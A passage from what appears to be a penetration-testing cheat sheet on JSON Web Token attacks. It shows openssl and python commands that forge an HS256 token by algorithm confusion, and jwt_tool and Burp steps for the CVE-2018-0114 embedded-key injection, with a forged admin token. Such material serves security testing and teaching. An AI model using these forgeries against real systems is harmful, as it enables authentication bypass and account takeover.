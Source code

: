         ```powershell
        $ echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6IjIzIiwidXNlcm5hbWUiOiJ2aXNpdG9yIiwicm9sZSI6IjEifQ" | openssl dgst -sha256 -mac HMAC -macopt hexkey:2d2d2d2d2d424547494e20505[STRIPPED]592d2d2d2d2d0a

        (stdin)= 8f421b351eb61ff226df88d526a7e9b9bb7b8239688c1f862f261a0c588910e0
        ```

    3. Convert signature (Hex to "base64 URL")

        ```powershell
        $ python2 -c "exec(\"import base64, binascii\nprint base64.urlsafe_b64encode(binascii.a2b_hex('8f421b351eb61ff226df88d526a7e9b9bb7b8239688c1f862f261a0c588910e0')).replace('=','')\")"
        ```

    4. Add signature to edited payload

        ```powershell
        [HEADER EDITED RS256 TO HS256].[DATA EDITED].[SIGNATURE]
        eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6IjIzIiwidXNlcm5hbWUiOiJ2aXNpdG9yIiwicm9sZSI6IjEifQ.j0IbNR62H_Im34jVJqfpubt7gjlojB-GLyYaDFiJEOA
        ```


### JWT Signature - Key Injection Attack (CVE-2018-0114)

> A vulnerability in the Cisco node-jose open source library before 0.11.0 could allow an unauthenticated, remote attacker to re-sign tokens using a key that is embedded within the token. The vulnerability is due to node-jose following the JSON Web Signature (JWS) standard for JSON Web Tokens (JWTs). This standard specifies that a JSON Web Key (JWK) representing a public key can be embedded within the header of a JWS. This public key is then trusted for verification. An attacker could exploit this by forging valid JWS objects by removing the original signature, adding a new public key to the header, and then signing the object using the (attacker-owned) private key associated with the public key embedded in that JWS header.


**Exploit**:
* Using [ticarpi/jwt_tool]
    ```ps1
    python3 jwt_tool.py [JWT_HERE] -X i
    ```
* Using [portswigger/JWT Editor](#)
    1. Add a `New RSA key`
    2. In the JWT's Repeater tab, edit data
    3. `Attack` > `Embedded JWK`

**Deconstructed**:
```json
{
  "alg": "RS256",
  "typ": "JWT",
  "jwk": {
    "kty": "RSA",
    "kid": "jwt_tool",
    "use": "sig",
    "e": "AQAB",
    "n": "uKBGiwYqpqPzbK6_fyEp71H3oWqYXnGJk9TG3y9K_uYhlGkJHmMSkm78PWSiZzVh7Zj0SFJuNFtGcuyQ9VoZ3m3AGJ6pJ5PiUDDHLbtyZ9xgJHPdI_gkGTmT02Rfu9MifP-xz2ZRvvgsWzTPkiPn-_cFHKtzQ4b8T3w1vswTaIS8bjgQ2GBqp0hHzTBGN26zIU08WClQ1Gq4LsKgNKTjdYLsf0e9tdDt8Pe5-KKWjmnlhekzp_nnb4C2DMpEc1iVDmdHV2_DOpf-kH_1nyuCS9_MnJptF1NDtL_lLUyjyWiLzvLYUshAyAW6KORpGvo2wJa2SlzVtzVPmfgGW7Chpw"
  }
}.
{"login":"admin"}.
[Signed with new Private key; Public key injected]
```
